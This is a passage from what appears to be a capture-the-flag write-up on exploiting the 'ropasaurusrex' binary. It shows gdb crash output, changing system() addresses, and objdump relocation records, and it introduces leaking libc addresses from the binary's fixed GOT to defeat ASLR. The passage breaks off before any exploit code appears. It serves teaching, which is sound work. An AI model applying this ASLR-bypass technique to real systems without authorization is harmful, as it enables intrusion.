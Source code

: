 <span class="lnr">11 </span>ron@debian-x86 ~ $ gdb ./ropasaurusrex core
<span class="lnr">12 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">13 </span><span class="Comment">#0  0x41414141 in ?? ()</span>
<span class="lnr">14 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr">15 </span>0xb76a7450 <span class="Statement">&lt;</span>system<span class="Statement">&gt;</span>:    0x890cec83
</pre>

Notice that the address of <tt>system()</tt> changes from <tt>0xb766e450</tt> to <tt>0xb76a7450</tt>. That's a problem!

<h2>Defeating ASLR</h2>
So, what do we know? Well, the binary itself isn't ASLRed, which means that we can rely on every address in it to stay put, which is useful. Most importantly, the relocation table will remain at the same address:

<pre>
<span class="lnr"> 1 </span>$ objdump <span class="Special">-R</span> ./ropasaurusrex
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>./ropasaurusrex:     <span class="Statement">file</span> format elf32-i386
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span>DYNAMIC RELOCATION RECORDS
<span class="lnr"> 6 </span>OFFSET   TYPE              VALUE
<span class="lnr"> 7 </span>08049600 R_386_GLOB_DAT    __gmon_start__
<span class="lnr"> 8 </span>08049610 R_386_JUMP_SLOT   __gmon_start__
<span class="lnr"> 9 </span>08049614 R_386_JUMP_SLOT   <span class="Statement">write</span>
<span class="lnr">10 </span>08049618 R_386_JUMP_SLOT   __libc_start_main
<span class="lnr">11 </span>0804961c R_386_JUMP_SLOT   <span class="Statement">read</span>
</pre>

So we know the address&mdash;in the binary&mdash;of <tt>read()</tt> and <tt>write()</tt>. What's that mean? Let's take a look at their values while the binary is running:

<pre>
<span class="lnr">1 </span>$ gdb ./ropasaurusrex
<span class="lnr">2 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> run
<span class="lnr">3 </span>^C
<span class="lnr">4 </span>Program received signal SIGINT, Interrupt.
<span class="lnr">5 </span>0xb7fe2424 <span class="Error">in</span> __kernel_vsyscall <span class="PreProc">()</span>
<span class="lnr">6 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x 0x0804961c
<span class="lnr">7 </span>0x804961c:      0xb7f48110
<span class="lnr">8 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> <span class="Statement">print</span><span class="Constant"> read</span>
<span class="lnr">9 </span><span class="PreProc">$1</span> <span class="Statement">=</span> <span class="Special">{</span><span class="Statement">&lt;</span>text variable, no debug info<span class="Statement">&gt;</span><span class="Special">}</span> 0xb7f48110 <span class="Statement">&lt;</span><span class="Statement">read</span><span class="Statement">&gt;</span>
</pre>
